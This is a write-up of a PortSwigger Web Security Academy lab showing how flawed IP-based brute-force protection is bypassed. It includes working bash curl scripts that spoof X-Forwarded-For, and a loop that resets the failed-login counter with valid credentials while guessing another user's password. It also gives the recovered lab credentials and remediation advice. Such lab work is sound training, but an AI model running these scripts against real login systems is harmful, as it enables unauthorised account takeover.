



# PortSwigger Lab Writeup: Brute Force Protection, IP Block

> **Platform:** PortSwigger Web Security Academy
> **Lab:** Brute force protection, IP block
> **Link:** https://portswigger.net/web-security/learning-paths/authentication-vulnerabilities/password-based-vulnerabilities/authentication/password-based/lab-broken-bruteforce-protection-ip-block
> **Goal:** Brute-force the password for the user `carlos` and log in successfully.

---

## 1. Lab Goal

The goal of this lab was to find the password for the user `carlos` using the provided password list.

The lab also provided valid credentials for another user:

```text
Username: wiener
Password: peter
```

These credentials became important later because the application’s brute-force protection logic could be bypassed by logging in successfully with a valid account.

---

## 2. Vulnerability Summary

The application had IP-based brute-force protection, but the protection logic was flawed.

After a few failed login attempts, the application blocked further attempts from the same IP address. However, the failed login counter was reset whenever there was a successful login.

Because of this, an attacker could avoid the block by periodically logging in with known valid credentials, then continuing the brute-force attack against the victim account.

In simple terms:

```text
Failed attempts against carlos -> counter increases
Successful login as wiener -> counter resets
Failed attempts against carlos continue without triggering a long block
```

---

## 3. Initial Testing

First, I tested the login form by submitting a wrong password for `carlos`.

The application returned:

```text
Incorrect password.
```

This confirmed that the username `carlos` existed and that failed password attempts returned a clear error message.



After a few failed attempts, the application returned a rate-limit message:

```text
You have made too many incorrect login attempts. Please try again in 1 minute(s).
```



This showed that the application was blocking repeated failed login attempts from the same IP address.

---

## 4. Failed Bypass Attempt: X-Forwarded-For

Since the protection appeared to be IP-based, I first tried spoofing the client IP address using the `X-Forwarded-For` header.

The idea was that if the application trusted this header, each request could appear to come from a different IP address.

Example:

```http
X-Forwarded-For: 127.7.1.1
```

I used the following script to change the `X-Forwarded-For` value on every request:

```bash
#!/usr/bin/env bash

HOST="0a6e00ab04ec174681672ffe007a0085.web-security-academy.net"
NORMAL="Incorrect password."
LIMIT="You have made too many incorrect login attempts. Please try again in 1 minute(s)."
i=1

while IFS= read -r p; do
  msg=$(
    curl -s -X POST "https://$HOST/login" \
      -H "X-Forwarded-For: 127.7.1.$i" \
      --data-urlencode "username=carlos" \
      --data-urlencode "password=$p" \
      | grep -oP '<p class=is-warning>\K.*(?=</p>)'
  )

  if [[ "$msg" == "$NORMAL" ]]; then
    :
  elif [[ "$msg" == "$LIMIT" ]]; then
    echo "Rate limited on password: $p"
  else
    echo "$p | $msg"
  fi

  i=$((i+1))
done < pass_list.txt
```

The result showed that changing the `X-Forwarded-For` header did not bypass the rate limit.

Example output:

```text
123456 | Incorrect password.
password | Incorrect password.
12345678 | Incorrect password.
Rate limited on password: qwerty
Rate limited on password: 123456789
Rate limited on password: 12345
```

So, in this lab, the application was not blindly trusting the spoofed `X-Forwarded-For` header.

---

## 5. Correct Approach

The actual weakness was that the brute-force counter reset after a successful login.

Since the lab provided valid credentials for `wiener:peter`, I could use that account to reset the failed login counter while brute-forcing `carlos`.

The logic was:

1. Try two passwords for `carlos`.
2. Log in successfully as `wiener`.
3. This resets the failed login counter.
4. Continue testing more passwords for `carlos`.
5. Repeat until the correct password is found.

I avoided making three failed attempts in a row because the block triggered after three failed login attempts.

---

## 6. Exploitation Script

I used this script to automate the process:

```bash
#!/usr/bin/env bash

HOST="0a6e00ab04ec174681672ffe007a0085.web-security-academy.net"

VICTIM="carlos"
VALID_USER="wiener"
VALID_PASS="peter"

NORMAL="Incorrect password."
LIMIT="You have made too many incorrect login attempts. Please try again in 1 minute(s)."

count=1

while IFS= read -r password; do

  if (( count % 3 == 0 )); then
    curl -s -X POST "https://$HOST/login" \
      --data-urlencode "username=$VALID_USER" \
      --data-urlencode "password=$VALID_PASS" > /dev/null

    count=1
  fi

  msg=$(
    curl -s -X POST "https://$HOST/login" \
      --data-urlencode "username=$VICTIM" \
      --data-urlencode "password=$password" \
      | grep -oP '<p class=is-warning>\K.*(?=</p>)'
  )

  if [[ "$msg" == "$NORMAL" ]]; then
    echo "$password | Incorrect password."
  elif [[ "$msg" == "$LIMIT" ]]; then
    echo "$password | Rate limited"
  else
    echo "$password | Possible valid password"
    break
  fi

  count=$((count+1))

done < pass_list.txt
```

---

## 7. Result

The script eventually produced this result:

```text
thomas | Incorrect password.
hockey | Incorrect password.
ranger | Incorrect password.
daniel | Possible valid password
```

The important line was:

```text
daniel | Possible valid password
```

For normal failed attempts, the application returned:

```text
Incorrect password.
```

But for `daniel`, there was no warning message. This indicated that the login was successful.

So the password for `carlos` was:

```text
daniel
```

---

## 8. Logging in as Carlos

After finding the password, I logged in manually using:

```text
Username: carlos
Password: daniel
```

The login was successful.



---

## 9. Final Credentials

```text
Username: carlos
Password: daniel
```

---

## 10. Remediation

The application should not reset the brute-force counter in a way that attackers can abuse.

A better implementation should include:

* Rate limiting per account and per IP address.
* Generic error messages for failed login attempts.
* Temporary lockouts after repeated failed attempts.
* Separate counters for each username instead of only tracking the source IP.
* Monitoring and alerting for repeated login failures.
* CAPTCHA or additional verification after suspicious activity.

Most importantly, a successful login to one account should not reset the failed login counter for attacks against another account.

---

## 11. Lessons Learned

* IP-based brute-force protection alone is not enough.
* The `X-Forwarded-For` header can sometimes be abused, but it did not work in this lab.
* Authentication protections should track both the source and the target account.
* Successful logins should not reset failed login counters globally.
* A flawed reset condition can turn rate limiting into a bypassable protection.

---

## 12. Final Summary

This lab demonstrated a flawed brute-force protection mechanism based on IP blocking.

At first, I tried bypassing the protection by spoofing the `X-Forwarded-For` header, but the application still rate limited the requests. The actual flaw was that the failed login counter reset after a successful login. By logging in as `wiener:peter` after every two failed attempts, I was able to continue brute-forcing `carlos` without triggering the block.

The correct credentials were:

```text
carlos:daniel
```
